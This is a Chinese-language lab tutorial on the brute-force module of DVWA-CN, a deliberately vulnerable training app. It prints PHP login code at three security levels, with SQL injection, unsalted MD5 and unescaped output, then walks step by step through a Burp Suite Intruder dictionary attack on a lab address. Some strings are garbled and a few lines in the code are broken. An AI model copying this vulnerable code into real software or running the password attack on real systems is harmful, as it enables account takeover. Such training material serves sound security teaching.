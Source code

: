 #dvwacn之六暴力破解

dvwacn之暴力破解物理路径

```
root@webserver:/var/www/dvwacn/vulnerabilities/brute/source# ls
high.php  low.php  medium.php
```


##安全级别

- low.php

```
<?php

if( isset( $_GET['Login'] ) ) {

	$user = $_GET['username'];
	
	$pass = $_GET['password'];
	$pass = md5($pass);

	$qry = "SELECT * FROM `users` WHERE user='$user' AND password='$pass';";
	$result = mysql_query( $qry ) or die( '<pre>' . mysql_error() . '</pre>' );

	if( $result && mysql_num_rows( $result ) == 1 ) {
		// Get users details
		$i=0; // Bug fix.
		$avatar = mysql_result( $result, $i, "avatar" );

		// Login Successful
		$html .= "<p>µȂ½³ɹ¦£¬ź¿ʒԽ񑇤̼²ڗ󡡠" . $user . "</p>";
		$html .= '<img src="' . $avatar . '" />';
	} else {
		//Login failed
		$html .= "<pre><br>ԃ»§Ļ»󖠃݂뵭ϳ¡£</pre>";
	}

	mysql_close();
}

?>
```

- medium.php 

```
<?php

if( isset( $_GET[ 'Login' ] ) ) {

	// Sanitise username input
	$user = $_GET[ 'username' ];
	$user = mysql_real_escape_string( $user );

	// Sanitise password input
	$pass = $_GET[ 'password' ];
	$pass = mysql_real_escape_string( $pass );
	$pass = md5( $pass );

	$qry = "SELECT * FROM `users` WHERE user='$user' AND password='$pass';";
	$result = mysql_query( $qry ) or die( '<pre>' . mysql_error() . '</pre>' );

	if( $result && mysql_num_rows($result) == 1 ) {
		// Get users details
		$i=0; // Bug fix.
		$avatar = mysql_result( $result, $i, "avatar" );

		// Login Successful
		$html .= "<p>µȂ½³ɹ¦£¬ź¿ʒԽ񑇤̼²ڗ󡡢 . $user . "</p>";
		$html .= '<img src="' . $avatar . '" />';
	} else {
		//Login failed
		$html .= "<pre><br>ԃ»§Ļ»󖠃݂뵭ϳ¡£</pre>";
	}

	mysql_close();
}

?>
```


- high.php

``` 
<?php

if( isset( $_GET[ 'Login' ] ) ) {

	// Sanitise username input
	$user = $_GET[ 'username' ];
	$user = stripslashes( $user );
	$user = mysql_real_escape_string( $user );

	// Sanitise password input
	$pass = $_GET[ 'password' ];
	$pass = stripslashes( $pass );
	$pass = mysql_real_escape_string( $pass );
	$pass = md5( $pass );

	$qry = "SELECT * FROM `users` WHERE user='$user' AND password='$pass';";
	$result = mysql_query($qry) or die('<pre>' . mysql_error() . '</pre>' );

	if( $result && mysql_num_rows( $result ) == 1 ) {
		// Get users details
		$i=0; // Bug fix.
		$avatar = mysql_result( $result, $i, "avatar" );

		// Login Successful
		$html .= "<p>µȂ½³ɹ¦£¬ź¿ʒԽ񑇤̼²ڗ󡡢 . $user . "</p>";
		$html .= '<img src="' . $avatar . '" />';
	} else {
		// Login failed
		sleep(3);
		$html .= "<pre><br>ԃ»§Ļ»󖠃݂뵭ϳ¡£</pre>";
		}

	mysql_close();
}

?>
```

##暴力破解过程

###设置http代理

火狐浏览器中安装FoxyProxy插件

```
新建代理服务器-->代理名称:Burp Suite-->主机或IP地址:127.0.0.1-->端口:8080-->为全部Urls启用代理服务器Burp Suite
```

###设置Burp Suite

打开Burp Suite

```
Proxy-->Options-->Add-->Bind to Port:8080|Blind to Address:127.0.0.1

Intercept-->Intercept is off
```

http://192.168.56.80/dvwacn/vulnerabilities/brute

用户点击暴力破解，输入

```
用户名：admin
密码：123456
```

接着到Burp Suite中查看抓到的http包内容

```
GET /dvwacn/vulnerabilities/brute/?username=admin&password=123456&Login=%B5%C7%C2%BD HTTP/1.1
Host: 192.168.56.80
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.80/dvwacn/vulnerabilities/brute/
Cookie: security=high; PHPSESSID=b066ao156vs6s2qhh0kr60sha4
Connection: close
```

把抓到的http包发送到Intruder，设置Positions如下

```
GET /dvwacn/vulnerabilities/brute/?username=admin&password=§123456§&Login=%B5%C7%C2%BD HTTP/1.1
Host: 192.168.56.80
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.80/dvwacn/vulnerabilities/brute/
Cookie: security=high; PHPSESSID=b066ao156vs6s2qhh0kr60sha4
Connection: close
```

设置Payloads，从Payload Options中选中Load...选择一个字典文件/tmp/dic.txt

dic.txt内容如下

```
123456
root
admin888
password
admin
```

设置Options匹配规则，从Grep - Match中选择Add添加`用户名或者密码错误。`

然后点击Positions中的Start attack进行暴力破解

查看运行结果，按Length排序，选中字节数大小跟其他不一样的那一条,查看Response中的Render,你会发现已经登录成功了。

当然，你也可以查看录像文件，更直观的观察暴力破解过程。

http://192.168.56.80/dvwacn/vulnerabilities/brute/Bruteforce/Bruteforce_controller.swf
